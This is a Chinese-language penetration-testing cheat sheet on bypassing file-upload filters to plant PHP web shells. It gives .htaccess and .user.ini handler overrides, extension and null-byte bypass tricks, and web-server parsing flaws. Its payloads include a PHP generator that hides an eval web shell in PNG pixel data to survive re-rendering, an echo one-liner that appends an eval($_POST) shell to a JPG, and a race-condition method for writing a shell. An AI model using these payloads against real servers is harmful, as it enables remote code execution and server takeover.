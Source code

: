 # 任意文件上传
## 黑名单

### 上传特殊可解析后缀

### 上传.htaccess**
.htaccess apache服务器
```
<FilesMatch "xxx.png"> //文件匹配
SetHandler application/x-httpd-php //设置解析方式
</FilesMatch>
```
### 上传.user.ini 
使用场景：

+ 服务器脚本语言为PHP，并且使用CGI/FastCGI模式，php版本>5.3.0
+ 上传目录下要有可执行的php文件

.user.ini，它会影响php.ini中的配置，从而将指定的文件内容按php来解析，影响的范围该文件所在的目录以及子目录。需要等待php.ini中的user_ini.cache_ttl设置的时间或重启Apache才能生效，且只在php5.3.0之后的版本才生效。.user.ini比.htaccess用的更广，不管是nginx/Apache/IIS,只要是以fastcgi运行的php都可以用这个办法。如果使用Apache，则用.htaccess文件有同样的效果。
在php.ini中，有两个新的INI指令
```
; Name for user-defined php.ini (.htaccess) files. Default is ".user.ini"
; 用户自定义的php.ini文件的名字，默认是.user.ini
user_ini.filename = ".user.ini"
​
; TTL for user-defined php.ini files (time-to-live) in seconds. Default is 300 seconds (5 minutes)
; 重新读取用户INI文件的时间间隔，默认是300秒（5分钟）
user_ini.cache_ttl = 300
```
我们指定一个文件（如，xxx.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），类似于在index.php中插入一句：require(./xxx.jpg);
这两个设置的区别只是在于auto_prepend_file是在文件前插入；auto_append_file在文件最后插入（当文件调用exit()时该设置无效）。
**利用方法:**
可以上传一个这样的.user.ini
`auto_prepend_file = xxx.jpg`

然后再上传一个图片马xxx.jpg
`<script language='php'>system('whoami');</script>`
### 后缀大小写绕过
### 点绕过
### 空格绕过
file.php::$DATA | file.php[空格]| file.php[.]|file.php[%80-%99]（Windows系统）

### 配合解析漏洞
Apache HTTPD 换行解析漏洞（CVE-2017-15715）

Apache HTTPD 多后缀解析漏洞 demo.php.zip

Nginx 解析漏洞  nginx.png/.php

IIS7.5解析漏洞 demo.png/.php

IIS6解析漏洞  在.asp、.asa目录下的任意文件都会以asp格式解析

双后缀名绕过 demo.pphphp

## 白名单

MIME绕过

%00截断

0x00截断

0x0a截断

## 检查内容

文件头检查  上传具有正常文件头的图片马即可

突破getimagesize()  上传一个正常图像后缀的图片马，使用文件包含漏洞运行图片马中的恶意代码即可。

突破exif_imagetype()  上传具有正常文件头的图片马即可。gif的文件头为GIF89a；png的文件头为89504E47；jpg的文件头为FFD8FF。然后使用文件包含漏洞运行图片马中的恶意代码。

二次渲染 找到渲染前后没有变化的位置，将PHP代码写进去
**图片马生成脚本**
需安装php-gd库， 内嵌木马
```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
         0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
         0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
         0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
         0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
         0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
         0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
         0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
 $r = $p[$y];
 $g = $p[$y+1];
 $b = $p[$y+2];
 $color = imagecolorallocate($img, $r, $g, $b);
 imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./idat.png');
?>

//生成的马<?=$_GET[0]($_POST[1]);?>
```
图片追加木马
```echo "<?php @eval(\$_POST['hacker']);?>" >> shell1.jpg”``` 
## 其他
条件竞争 ：发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。
可以让burp一直发包，让php程序一直处于移动php文件到upload目录这个阶段
我们使用多线程并发访问上传的文件，总会有一次在上传文件到删除文件这个时间段访问到上传的php文件，一旦我们成功访问到上传的php文件，那么它就会向服务器写一个shell。